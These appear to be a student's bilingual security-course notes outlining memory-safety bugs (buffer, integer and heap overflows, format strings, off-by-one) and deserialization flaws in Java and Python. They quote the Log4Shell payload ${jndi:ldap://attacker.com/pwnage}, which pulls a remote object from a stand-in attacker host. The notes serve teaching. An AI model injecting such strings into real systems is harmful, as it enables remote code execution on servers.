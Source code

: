 # week 1-3
### x86, callstack

### Memory Safety Vulnerabilities
- Buffer Overflow 缓冲区溢出
  - Stack Smashing 栈溢出
- Integer Memory Safety Vulns 整数溢出
- Format String
  - `%n`
- Heap vulns
  - UAF
  - Overflow vtable 虚表（覆盖下一个对象的虚表）
- Off by one
  - `read(buf_size + 1)`
  - 覆盖 ebp，利用 `mov esp, ebp` 使得第二次 return 的 ebp, esp, eip 在 buf 中（eg. ebp =  buf[0], eip = buf[1]）


+ Serialization
  - 内存安全更多出现在 C 程序
  - Java, Python 会在序列化上遇到类似问题
  - serialize(Java)
    - JNDI with log4j
    - JNDI: A service to fetch data from outside places (e.g. Internet)
  - pickle(python)
    - `__reduce__`


#### vTable
对于存在虚函数的类，为了实现多态，编译器将第一个成员 obj[0] 设置为指向 vTable 的指针
- obj[0] -> `void(* vfTable)[n]()` 指对应类的 vTable
- `vfTable[i]` -> `function` 指向多态函数，可能是 &`jmp main()`

#### Nop Shed
shellcode 前写很多 nop，增加容错

#### JNDI
Suppose Log4j saw the string ${jndi:ldap://attacker.com/pwnage}
- Log4j thinks: “This is a JNDI object I need to include’
- Java thinks: “Okay, let’s get that object from attacker.com”
- Java thinks: “Okay, let’s deserialize that Java object”
